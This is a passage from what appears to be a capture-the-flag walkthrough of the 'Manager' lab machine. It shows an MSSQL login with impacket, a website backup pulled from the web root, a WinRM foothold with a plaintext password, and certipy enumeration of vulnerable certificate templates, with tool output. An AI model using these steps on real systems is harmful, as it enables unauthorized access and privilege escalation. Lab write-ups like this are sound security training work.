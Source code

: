 # MSSQL
```sh
impacket-mssqlclient manager/operator:operator@manager.htb -windows-auth
```

![[/assets/images/manager6.png]]

Download `website-backup-27-07-23-old.zip` from `\inteput\wwwroot`
![[/assets/images/manager7.png]]

![[/assets/images/manager8.png]]


# Foothold 

```sh
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

# Privilege Escalation
## Enumeration

We'll attempt to identify potential misconfigurations within the Certification Authority. Let's utilize certipy to find any vulnerabilities that may exist.

```sh
certipy-ad find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable

Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
0
CA Name: manager-DC01-CA
DNS Name: dc01.manager.htb
Certificate Subject: CN=manager-DC01-CA, DC=manager, DC=htb
Certificate Serial Number: 5150CE6EC048749448C7390A52F264BB
Certificate Validity Start: 2023-07-27 10:21:05+00:00
Certificate Validity End: 2122-07-27 10:31:04+00:00
Web Enrollment: Disabled
User Specified SAN: Disabled
Request Disposition: Issue
Enforce Encryption for Requests: Enabled
Permissions
Owner
: MANAGER.HTB\Administrators
Access Rights
Enroll
: MANAGER.HTB\Operator
MANAGER.HTB\Authenticated Users
MANAGER.HTB\Raven
ManageCa
: MANAGER.HTB\Administrators
MANAGER.HTB\Domain Admins
MANAGER.HTB\Enterprise Admins
```